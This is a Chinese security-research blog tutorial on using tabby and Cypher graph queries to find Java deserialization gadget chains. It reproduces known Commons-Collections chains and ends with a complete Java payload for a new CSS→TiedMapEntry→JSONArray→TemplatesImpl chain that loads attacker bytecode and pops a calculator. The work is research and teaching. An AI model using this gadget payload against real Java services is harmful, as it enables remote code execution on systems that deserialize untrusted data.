# tabby从入门到新链挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/18792  
> **文章ID**: 18792

---

# 前言

由于我自己学习tabby时发现好像没有特别仔细的入门文章，因此想写一个比较详细的从入门到学习挖掘链子思路文章，以减少大家入门tabby的时间，因为自己也是一个小菜，所以有啥不太对的地方欢迎各位佬们指出。

# tabby安装

这里直接参考这个佬的安装教程就行，又细又全。

<https://www.yuque.com/bloyet/java/scm8ndq7tfp23coq#>

# 语法学习

tabby的基础语法主要基于neo4j cypher语法，除此之外还有tabby带的find系列的语法和apoc等插件的语法。

## 基础语法

在tabby的使用种Cypher语法主要有俩类，一个是节点匹配，另一个是关系匹配。

### 模式匹配与节点匹配

```
MATCH (c:Class)/(m:Method)/(f:Field)
```

在tabby使用的过程中，几乎所有语句都是以`Match`开头的，在 Cypher 里`MATCH`用来**模式匹配**（pattern matching），类似 SQL 的 `SELECT ... FROM`。

而节点匹配常用的是`c:Class`，`f:Field`以及`c:Method`。其中c,f与m都表示变量名；而`:Class`,`:Field`和`:Method`就是节点标签，相当于类，参数和方法。

那么，怎么精确的匹配到指定的节点呢，大家都知道在sql中可以用where去限制查询出的数据，这里同样可以用where去限制匹配别名。

例：

```
(m:Method {NAME:"exec"}) 
相当于
(m:Method) where m.Name = exec
```

在这个例子中限制了m的方法名为exec，这俩种写法所代表的意思是相同的。

当然除了Name之外还有其他的节点属性，除了=之外也还有其他的字符串匹配符

节点属性表：

|  |  |
| --- | --- |
| 字段名 | 说明 |
| `SIGNATURE` | 方法签名：通常是 `类全名 + 方法名 + 参数类型`，类似 Java 字节码里的方法描述符 |
| `NAME` | 方法名（不含类名），如 `readObject`、`toString` |
| `CLASSNAME` | 方法所属类的全限定名，如 `java.util.HashMap` |
| `IS_SINK` | 是否是危险方法（sink），通常在污点分析里被标记为“危险调用点” |
| `IS_SOURCE` | 是否是入口方法（source），在污点分析里作为“输入点” |
| `INTERFACES` | 当前类实现的接口（可能是一个列表，比如 `[java.util.Map, java.io.Serializable]`） |
| `SUPERCLASS` | 当前类的父类（全限定名），如 `java.util.AbstractMap` |

字符串匹配操作表：

|  |  |  |  |
| --- | --- | --- | --- |
| 操作符 | 说明 | 示例 | 匹配结果示例 |
| `=` | 精确等于 | `WHERE n.name = "readObject"` | ​√`readObject`；× `readLine` |
| `<>` | 不等于 | `WHERE n.name <> "toString"` | √ `readObject`；× `toString` |
| `CONTAINS` | 包含子串 | `WHERE n.className CONTAINS "Map"` | √ `HashMap`；√ `ConcurrentHashMap`；× `Set` |
| `STARTS WITH` | 前缀匹配（以...开头） | `WHERE n.name STARTS WITH "get"` | √ `getName`；√ `getValue`；× `reset` |
| `ENDS WITH` | 后缀匹配（以...结尾） | `WHERE n.name ENDS WITH "Impl"` | √ `UserServiceImpl`；× `UserService` |
| `=~` | 正则匹配 | `WHERE n.name =~ "read.*"` | √ `readObject`；√ `readLine`；× `write` |
| `IN [...]` | 集合匹配（在列表中任意） | `WHERE n.name IN ["readObject","toString"]` | √ `readObject`；√ `toString`；× `write` |

### 关系匹配

在Cypher中，俩个节点之间的关系用各种箭头以及各种关系变量来表示，语法形式大概如下。

```
(startNode)-[r:REL_TYPE {属性}]->(endNode)
```

* `startNode`、`endNode`：节点变量
* `r`：关系变量（可选）
* `REL_TYPE`：关系类型（必须是大写，一般表示语义）
* `{属性}`：关系的附加属性（可选）
* 箭头方向 `->`：表示关系方向（有向边）

基本形式有下面这俩种：

1. 单向匹配

```
(source:Method)-[:CALL]->(sink:Method)
```

* 方法source调用了sink方法，箭头->表明关系方向
* 其中:CALL就是关系类型，表示source调用了sink

2. 双向匹配

```
(source:Method)-[:CALL]-(sink:Method)
```

* -[]-表示不关心方向，source调用sink也可以，sink调用source也可以。

关系类型表如下：

|  |  |
| --- | --- |
| 关系类型 | 含义描述 |
| `CALL` | 方法调用关系，表示一个方法 **调用** 了另一个方法 |
| `ALIAS` | 别名关系，表示两个变量/符号在语义上是 **同一个对象的不同引用** |
| `EXTENDS` | 类继承关系，表示一个类 **继承** 了另一个类 |
| `HAS` | 拥有关系，表示一个类 **包含** 字段 / 方法 |
| `INTERFACE` | 接口实现关系，表示一个类 **实现** 了某个接口 |

然后就是复合一点的用法，比如：

```
(source:Method)-[:CALL|ALIAS*1..4]->(sink:Method)
```

* :CALL|ALIAS表示每一跳可以是CALL或者ALIAS关系
* \*1..4表示可变长度路径，表示允许从source跳1步到4步到达sink。

## 函数语法

这些函数还是要结合基础语法用的，可以很大的减少sql语句的复杂程度。

### APOC插件

|  |  |  |
| --- | --- | --- |
| 过程 | 作用 | 语法示例 |
| `apoc.algo.allSimplePaths` | 所有简单路径 | `CALL apoc.algo.allSimplePaths(startNode, endNode, "<REL_TYPE1|REL_TYPE2", maxDepth)` |
| `apoc.path.expand` | 自定义遍历路径 | `CALL apoc.path.expand(start,'REL_TYPE>',null,0,5) YIELD path` |
| `apoc.path.subgraphAll` | 获取子图（所有节点和关系） | `CALL apoc.path.subgraphAll(start,{maxLevel:3}) YIELD nodes, relationships` |
| `apoc.path.spanningTree` | 最小生成树遍历 | `CALL apoc.path.spanningTree(start,{maxLevel:5})` |
|  |  |  |

### tabby内置函数

|  |  |  |  |
| --- | --- | --- | --- |
| 函数名 | 参数 | 说明 | 返回值 |
| `tabby.algo.findPath(source, direct, sink, maxNodeLength, isDepthFirst)` | `source`：起点方法 `direct`：是否强制方向（true 表示有向路径） `sink`：终点方法 `maxNodeLength`：路径允许的最大节点数 `isDepthFirst`：是否使用深度优先搜索 | 在图谱中查找从 `source` 到 `sink` 的所有可能路径 | `path`：找到的路径 `weight`：路径权重（长度/评分） |
| `tabby.algo.findPathWithState(source, direct, sink, sinkState, maxNodeLength, isDepthFirst)` | 参数同上，增加： `sinkState`：终点方法需要满足的状态（如污点条件） | 在 `findPath` 的基础上，要求 `sink` 满足指定状态 | `path`, `weight` |
| `tabby.algo.findJavaGadget(source, direct, sink, maxNodeLength, isDepthFirst)` | 参数同 `findPath` | 查找从 `source` 到 `sink` 的 **Java 利用链（Gadget Chain）** | `path`, `weight` |
| `tabby.algo.findJavaGadgetWithState(source, direct, sink, sinkState, maxNodeLength, isDepthFirst)` | 参数同上，增加 `sinkState` | 在 `findJavaGadget` 的基础上，要求终点 `sink` 满足指定状态（常用于 Gadget 是否可控/危险） | `path`, `weight` |

# 老链练手

那么现在了解了tabby的语法后，可以开始拿一些老的链子来熟悉一下tabby的语法了，这里同样分享一些我的思路。

## 找到目标方法

首先，在使用tabby挖掘链子的时候，可以先找到触发命令执行的方法，从而确定挖掘的链子的终点应该为哪一个类的具体方法。

这里还是以cc的链子为例，大家都知道cc中主要的触发方法就是`TiedMapEntry`的`setValue`方法，这个方法可以触发`map#get`，而在这个类中还有其他三个方法可以触发`setValue`也就是`equals`、`hashCode`和`toString`。







当然除了以这几个类为终点外，还可以以很多类当作tabby的终点，比如`transform`，`map.get`,`compare`等都可以，这个终点并没有很多的限制，本文只是举出了几个例子而已。

## 使用tabby进行查询

在找到终点方法后，可以尝试用tabby语法构造老链，这里分别举上面三个终点的一个例子，当然哈这里还是老东西，主要是熟悉tabby的语法以及一些复现的小方法。

### 依次查找每个节点

这里使用`tabby.algo.findJavaGadge`查找每一个节点来进行复现`BadAttributeValueExpException->TiedMapEntry#toString`链。

首先构造出以`BadAttributeValueExpException`为source的节点。

```
MATCH (source:Method)
WHERE source.CLASSNAME CONTAINS "BadAttributeValueExpException"
AND source.NAME = "readObject"
AND source.SIGNATURE CONTAINS "java.io.ObjectInputStream"
```



我们需要走到的是toString方法，就构造出一个toString的节点。

```
MATCH (sink:Method)

WHERE sink.NAME = "toString"
```

然后将这俩个节点放入`tabby.algo.findJavaGadge`函数中进行查找。

```
MATCH (source:Method)

WHERE source.CLASSNAME CONTAINS "BadAttributeValueExpException"

  AND source.NAME = "readObject"

  AND source.SIGNATURE CONTAINS "java.io.ObjectInputStream"


MATCH (sink:Method)

WHERE sink.NAME = "toString"

  
CALL tabby.algo.findJavaGadget(source, "OUT", sink, 5, true) 

YIELD path

RETURN path

LIMIT 20;

```

运行后可以看到`BadAttributeValueExpException#readObject`到`toString`的图形化界面。



将这个toString作为一个节点放入我们构造的第一个节点中，并且对第二个节点加上类名为`TiedMapEntry`的限制，最终构造如下：

```
MATCH (source:Method)-[:CALL]->(m1:Method{NAME:"toString"})

WHERE source.CLASSNAME CONTAINS "BadAttributeValueExpException"

  AND source.NAME = "readObject"

  AND source.SIGNATURE CONTAINS "java.io.ObjectInputStream"


MATCH (sink:Method)

WHERE sink.NAME = "toString" and sink.CLASSNAME Contains "TiedMapEntry"

  
CALL tabby.algo.findJavaGadget(source, "OUT", sink, 3, true) 

YIELD path

RETURN path

LIMIT 20;

```



用相同方法改造寻找到getValue方法的语句。

```
MATCH (source:Method)-[:CALL]->(m1:Method{NAME:"toString"})-[:ALIAS]->(m2:Method{NAME:"toString"})
WHERE source.CLASSNAME CONTAINS "BadAttributeValueExpException"
  AND source.NAME = "readObject"
  AND source.SIGNATURE CONTAINS "java.io.ObjectInputStream"
  AND m2.CLASSNAME CONTAINS "TiedMapEntry"

MATCH (sink:Method)
WHERE sink.NAME = "getValue" and sink.CLASSNAME Contains "TiedMapEntry"

  
CALL tabby.algo.findJavaGadget(source, "OUT", sink, 3, true) 
YIELD path
RETURN path
LIMIT 20;
```



拼接setValue到sink点之后的完整语句如下：

```
MATCH path = (source:Method)-[:CALL]->(m1:Method{NAME:"toString"})-[:ALIAS]->(m2:Method{NAME:"toString"})-[:CALL]->(m4:Method {NAME:"getValue"})-[:CALL]->(m5:Method {NAME:"get"})-[:ALIAS*1..2]-(m6:Method {NAME:"get"})-[:CALL]->(m7:Method {NAME:"transform"})-[:ALIAS*]-(m8:Method)-[:CALL]->(m9:Method {IS_SINK:true}) 
WHERE source.CLASSNAME CONTAINS "BadAttributeValueExpException"
  AND source.NAME = "readObject"
  AND source.SIGNATURE CONTAINS "java.io.ObjectInputStream"
  AND m2.CLASSNAME CONTAINS "TiedMapEntry"

return path


```



tips：这个方法是最不容易出错的，就是比较耗时，也比较麻烦，但是确实很可靠

### 直接由起点查找到终点

当然在复现中已经知道起点和终点后也可以不用这么麻烦的一个个去查找了，直接从起点直接搜到目标点就行，这里以`HotSwappableTargetSource->TiedMapEntry#equals`为例。

测试代码如下：

```
MATCH (source:Method)
WHERE source.CLASSNAME = "java.util.Hashtable"
  AND source.NAME = "readObject"
  AND source.SIGNATURE CONTAINS "java.io.ObjectInputStream"

MATCH (sink:Method)
WHERE sink.CLASSNAME CONTAINS "TiedMapEntry" AND sink.NAME="equals"


CALL tabby.algo.findJavaGadget(source, "OUT", sink, 4, true) 
YIELD path
RETURN path
LIMIT 20;

```



当然，这次只用了一次查询就直接将所有节点查找出来了，如果还和上一节一样构造tabby语法拼接肯定是不方便的，这次可以直接whth一个sink节点出来，在sink节点后在加上getValue后的tabby语句就方便很多了，最终构造的tabby语句如下：

```
MATCH (source:Method)
WHERE source.CLASSNAME = "java.util.Hashtable"
  AND source.NAME = "readObject"
  AND source.SIGNATURE CONTAINS "java.io.ObjectInputStream"

MATCH (sink:Method)
WHERE sink.CLASSNAME CONTAINS "TiedMapEntry" AND sink.NAME="equals"

CALL tabby.algo.findJavaGadget(source, "OUT", sink, 4, true) 
YIELD path
WITH sink

MATCH path1=(sink)-[:CALL]->(m4:Method {NAME:"getValue"})
  -[:CALL]->(m5:Method {NAME:"get"})
  -[:ALIAS*1..2]-(m6:Method {NAME:"get"})
  -[:CALL]->(m7:Method {NAME:"transform"})
  -[:ALIAS*]-(m8:Method)
  -[:CALL]->(m9:Method {IS_SINK:true})

RETURN path1
LIMIT 20;

```



tips：这个方法经常会出现很多杂乱节点，但是效率是最高的，虽然有时候不太可靠，但是也可能会出现一些小惊喜。

# 新链挖掘

这个其实也不知道算不算新链吧反正是点新东西，这是一个新的transfom->toString的小trick，也是机缘巧合下发现的，有了这个就可以使用hashcode以及equals触发toString了，之前在看公众号时发现有佬发出来了，我也来分享一下我是如何碰到的吧。

因为之前刚学tabby，所以基本上语法啥的都不咋会，就只会一些比较基础的，然后我是比较喜欢用`CONTAINS`这个符号的，而不是用=，因为classname如果用=就一定要写完整的类名。

然后在接触`tabby.algo.findJavaGadget`这个函数时就会一直寻找一些调用toString的方法。

```
MATCH (source:Method)
WHERE source.NAME = "transform"

MATCH (sink:Method)
WHERE sink.NAME = "toString"

CALL tabby.algo.findJavaGadget(source, "OUT", sink, 5, true)
YIELD path
RETURN path
LIMIT 20;
```



运行后可以发现很多transfrom方法，然后就是枯燥的看代码的环节了，最后找到的就是这个。



可以看到这个方法的代码



他有一个valueof方法，并且这个valueof方法里面是有toStrng调用的，并且参数也是可控的。



最终payload：

```
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.*;
import utils.*;
import javax.swing.text.html.CSS;

public class demo2 {
    public static void main(String[] args) throws Exception {
        System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");

        TemplatesImpl templates = new TemplatesImpl();
        utils.setFieldValue(templates,"_name","1vxyz");
        byte[] code = Files.readAllBytes(Paths.get("E://Test.class"));
        System.out.println(Base64.getEncoder().encodeToString(code));
        byte[][] codes = {code};
        utils.setFieldValue(templates,"_bytecodes",codes);
        utils.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        Transformer transformer=StringValueTransformer.getInstance();

        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazymap =  LazyMap.decorate(map,transformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,jsonArray);

        CSS css = new CSS();
        Hashtable hashtable = new Hashtable();
        hashtable.put("",tiedMapEntry);
        utils.setFieldValue(css, "valueConvertor", hashtable);
        utils.setFieldValue(css, "baseFontSize", 1);
        utils.Serialize(css);
        utils.Unserialize("ser.bin");
    }
}

```

成功弹出计算器


